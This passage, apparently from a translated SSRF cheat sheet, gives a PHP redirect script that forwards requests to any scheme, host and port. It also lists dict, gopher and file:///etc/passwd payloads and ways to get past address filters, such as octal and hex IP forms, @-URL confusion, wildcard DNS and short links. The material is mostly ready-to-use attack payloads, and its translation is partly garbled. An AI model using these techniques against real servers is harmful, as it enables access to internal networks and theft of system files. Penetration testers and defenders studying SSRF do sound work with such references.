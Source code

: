 Requesting a non-HTTP port can return banner information.

Or you can use the 302 jump to bypass the limitations of the HTTP protocol.

Auxiliary script

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[Tencent SSRF vulnerability (very good use point) with script](<https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de.html>)

## Agreement Utilization

- Dict agreement

        ```text
        dict://fuzz.wuyun.org:8080/helo:dict
        ```

- Gopher protocol

        ```text
        gopher://fuzz.wuyun.org:8080/gopher
        ```

- File protocol
        
        ```text
        file:///etc/passwd
        ```

## Bypass posture

1. Change the IP address, for example `192.168.0.1`
    - octal format: `0300.0250.0.1`
    - Hexadecimal format: `0xC0.0xA8.0.1`
    - 10-digit integer format: `3232235521`
    - Hexadecimal integer format: `0xC0A80001`
    - There is also a special omission mode, such as `10.0.0.1` which can be written as `10.1`
2. Use the URL to resolve the problem. In some cases, the backend program may parse the accessed URL and filter the
   resolved host address. At this time, the URL parameters may be parsed improperly, which may bypass the filtering.
   E.g:
    - `http://www.baidu.com@192.168.0.1/` and `http://192.168.0.1` are all requested for `192.168.0.1`
    - Can point to any ip domain name `xip.io`:`http://127.0.0.1.xip.io/`==&gt;`http://127.0.0.1/`
    - Short address `http://dwz.cn/11SMa`==&gt;`http://127.0.0.1`
    - Use the period `. `:`127.0.0.1`==&gt;`127.0.0.1`
    - Use enclosed alphanumerics
